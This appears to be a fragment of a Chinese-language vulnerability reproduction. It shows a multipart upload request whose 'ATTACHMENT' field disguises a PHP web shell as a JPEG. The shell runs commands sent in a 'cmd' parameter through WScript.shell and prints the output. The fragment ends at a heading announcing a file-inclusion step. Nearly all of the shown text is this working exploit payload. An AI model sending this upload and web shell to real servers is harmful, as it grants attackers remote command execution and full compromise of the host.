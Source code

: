 ```

2
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="P"

123
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="DEST_UID"

1
------WebKitFormBoundarypyfBh1YB4pV8McGB
Content-Disposition: form-data; name="ATTACHMENT"; filename="jpg"
Content-Type: image/jpeg

<?php
$command=$_POST['cmd'];
$wsh = new COM('WScript.shell');
$exec = $wsh->exec("cmd /c ".$command);
$stdout = $exec->StdOut();
$stroutput = $stdout->ReadAll();
echo $stroutput;
?>
------WebKitFormBoundarypyfBh1YB4pV8McGB--
```

![截图](4d79ad79f172ea5664c60110aa10a757.png)

文件包含：
